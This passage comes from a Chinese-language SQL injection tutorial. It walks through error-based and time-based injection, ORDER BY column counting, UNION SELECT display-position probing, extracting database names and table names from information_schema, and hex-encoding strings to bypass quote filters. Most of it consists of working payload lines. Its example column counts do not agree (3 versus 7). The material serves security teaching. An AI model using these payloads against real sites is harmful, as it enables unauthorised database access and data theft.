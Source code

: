 - **基于错误（Error-Based）**：通过报错信息直接获取数据，利用`extractvalue()`等函数直接返回错误信息：  
  `id=1' AND extractvalue(1,concat(0x7e,version()))--+`

- **联合查询（UNION-Based）**：利用`UNION SELECT`回显数据

- **布尔盲注（Boolean Blind）**：通过页面状态（真/假）推断数据

- **时间盲注（Time-Based）**：通过延时函数（如`SLEEP(5)`）判断条件，通过响应时间差异判断：  
  `id=1' AND IF(1=1,SLEEP(5),0)--+`

### 3. 确定字段数

**方法**：使用`ORDER BY`子句递增测试，直到报错：

```
?id=1' ORDER BY 3 --+  -- 正常返回（说明至少3列）
?id=1' ORDER BY 4 --+  -- 报错（说明字段数为3）
```

**目的**：为后续`UNION SELECT`查询匹配列数。

### 4. 寻找显示位

**方法**：使用`UNION SELECT`构造联合查询，强制原查询返回空结果：

```
?id=-1' UNION SELECT 1,2,3 --+
```

**结果**：观察页面显示的数字（如2或3），该位置即为数据显示位。

- **为什么用`id=-1`?**→ 使原查询无结果，仅显示 UNION 数据

- **页面显示数字 2,3,5**→ 这些位置可用于输出数据

### 5. 提取数据库信息

#### 获取当前数据库名和版本

```
?id=-1' UNION SELECT 1,database(),version() --+
```

- `database()`：返回当前数据库名

- `version()`：返回数据库版本信息

#### 获取表名

利用MySQL自带的`information_schema`查询表名：

```
?id=-1' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6,7 FROM information_schema.tables WHERE table_schema='test_db'--+
```

> **规避引号过滤**：
> 
> 将`'test_db'`转为十六进制`0x746573745f6462`
> 
> 工具转换命令：`echo -n "test_db" | xxd -ps`
